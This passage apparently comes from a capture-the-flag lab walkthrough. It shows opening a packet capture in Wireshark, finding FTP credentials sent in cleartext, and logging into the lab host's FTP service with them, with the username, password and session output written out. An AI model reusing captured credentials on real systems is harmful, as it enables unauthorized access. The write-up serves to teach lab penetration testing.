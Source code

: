The result doesn't return any new vulnerabilities or anything useful to us. Let's examine the `0.pcap` file that we downloaded earlier with `wireshark`.


# Exploitation  

## Wireshark - 0.pcap

```console
kali@kali:~$ wireshark 0.pcap&
```

To make the data more organized, click the `Info` tab to sort the data based on its info. After sorting, scrolling down reveals some FTP login credentials.

![wireshark-1.png](./images/wireshark-1.png)
**Figure 6:** wireshark-1.png

```
USER nathan
PASS Buck3tH4TF0RM3!
```

Let's use these credentials to login to FTP.

```console
kali@kali:~$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password: Buck3tH4TF0RM3!
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
Now that we're in, let's see what's in here.
